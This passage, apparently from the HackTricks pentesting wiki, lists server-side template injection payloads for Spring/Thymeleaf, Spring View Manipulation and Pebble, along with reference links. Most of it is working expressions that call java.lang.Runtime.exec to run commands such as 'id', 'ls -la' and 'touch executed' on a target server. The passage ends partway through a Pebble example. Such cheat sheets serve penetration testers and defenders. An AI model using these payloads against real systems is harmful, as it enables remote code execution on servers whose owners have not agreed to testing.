 **More information**

-   ​[https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)​
    

[

EL - Expression Language





](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

## 

Spring Framework (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java)

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}

## 

Spring View Manipulation (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)

__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x

__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x

-   ​[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)​
    

[

EL - Expression Language





](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

## 

Pebble (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pebble-java)

-   `{{ someString.toUPPERCASE() }}`
    

Old version of Pebble ( < version 3.0.9):

{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}

New version of Pebble :

{% set cmd = 'id' %}
